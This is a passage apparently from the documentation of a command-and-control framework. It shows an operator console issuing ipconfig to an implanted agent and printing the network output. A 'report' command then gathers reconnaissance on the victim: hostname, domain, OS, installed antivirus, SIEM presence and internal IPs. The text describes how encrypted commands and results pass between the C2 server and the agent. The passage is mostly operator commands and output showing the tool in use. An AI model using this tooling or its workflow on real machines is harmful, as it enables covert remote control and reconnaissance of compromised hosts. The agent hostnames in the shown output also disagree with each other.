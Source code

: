 
(HR-PC-TYRMJ) >>
```

To execute a system command directly we can type the command directly and then wait for the results based on the interval check time that we set when we created the listener.

```
(HR-PC-TYRMJ) >> ipconfig
[+] Command sent , waiting for results
(HR-PC-TYRMJ) >>
Command execution result is :

Windows IP Configuration


Ethernet adapter Ethernet1:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : home
   Link-local IPv6 Address . . . . . : fe80::f85f:d52b:1d8d:cbae%10
   IPv4 Address. . . . . . . . . . . : 192.168.1.43
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.1.1

Ethernet adapter Ethernet:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Ethernet adapter Bluetooth Network Connection:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :



(HR-PC-TYRMJ) >>
```

In this case the command has been encrypted and then sent to the agent, after that the client will decrypt the command and execute it, the agent will encrypt the results, and finally send it back again to the C2 to decrypt it and show the results.

We can also use the `report` command to get the ESA information like the following:

```
(HR-PC-TYRMJ) >> report
[+] Command sent , waiting for results
(HR-PC-TYRMJ) >>
Endpoint situation awareness report for HR-PC-QNGAV

=============
Hostname : 	HR-PC-QNGAV
Domain : 	darkside.com
OS : 		Microsoft Windows 10 Pro(64-bit)
OS build : 	10.0.17134
OS arch : 	64-bit
AntiVirus : 	Symantec
SIEM solution : False
Internal interfaces/IPs :
	IP : 192.168.178.144
	IP : 172.12.1.20
